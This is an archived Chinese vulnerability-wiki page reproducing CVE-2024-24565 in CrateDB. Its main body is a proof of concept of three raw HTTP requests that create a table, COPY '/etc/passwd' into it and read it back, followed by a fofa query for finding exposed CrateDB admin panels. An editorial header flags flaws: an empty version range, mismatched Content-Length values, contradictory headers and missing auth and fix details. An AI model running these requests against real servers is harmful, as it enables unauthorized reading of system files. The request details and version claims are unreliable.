


# CrateDB数据库任意文件读取漏洞复现-CVE-2024-24565

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：SQL接口及建表/COPY权限；按分支受影响；文件读取受数据库服务权限限制
- 证据范围：建表、COPY本地文件、SELECT三步；结果只有图片

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- P0影响范围含空区间5.6.0<=version<5.6.0
- 身份认证及所需SQL权限未说明，不能默认未授权
- 三请求固定Content-Length52却正文不同；Connection头互相矛盾
- Access-Control-Allow-Origin是响应头，放请求中无证明作用
- 缺少修复版本和原始研究来源

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

小白菜安全  小白菜安全   2024-02-21 17:30  
  
**免责声明**  
  
该公众号主要是分享互联网上公开的一些漏洞poc和工具，  
利用本公众号所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，本公众号及作者不为此承担任何责任，一旦造成后果请自行承担！如果本公众号分享导致的侵权行为请告知，我们会立即删除并道歉。  
  
  
  
**漏洞影响范围**  
  
5.4.0<=io.crate:crate<5.4.8,5.6.0<=io.crate:crate<5.6.0,io.crate:crate<5.3.9,5.5.0<=io.crate:crate<5.5.4  
  
  
#  漏洞复现  
  
**poc**  
  
**1.创建数据表**  
```http
POST /_sql?types HTTP/1.1
Host: 127.0.0.1:4200
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2656.18 Safari/537.36
Content-Length: 52
Access-Control-Allow-Origin: *
Connection: keep-alive
Content-Type: application/json; charset=UTF-8
Accept-Encoding: gzip
Connection: close

{"stmt":"CREATE TABLE info_leak(info_leak STRING);"}
```  
  
2.复制文件信息  
```http
POST /_sql?types HTTP/1.1
Host: 127.0.0.1:4200
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2656.18 Safari/537.36
Content-Length: 52
Access-Control-Allow-Origin: *
Connection: keep-alive
Content-Type: application/json; charset=UTF-8
Accept-Encoding: gzip
Connection: close

{"stmt":"COPY info_leak FROM '/etc/passwd' with (format='csv', header=false);"}
```  
  
3.读取数据  
```http

POST /_sql?types HTTP/1.1
Host: 127.0.0.1:4200
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2656.18 Safari/537.36
Content-Length: 52
Access-Control-Allow-Origin: *
Connection: keep-alive
Content-Type: application/json; charset=UTF-8
Accept-Encoding: gzip
Connection: close

{"stmt":"SELECT * FROM info_leak;"}
```  
  
出现以下信息代表漏洞存在  
  
  
# 搜索语法  
  
**fofa：title="CrateDB Admin UI"**  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
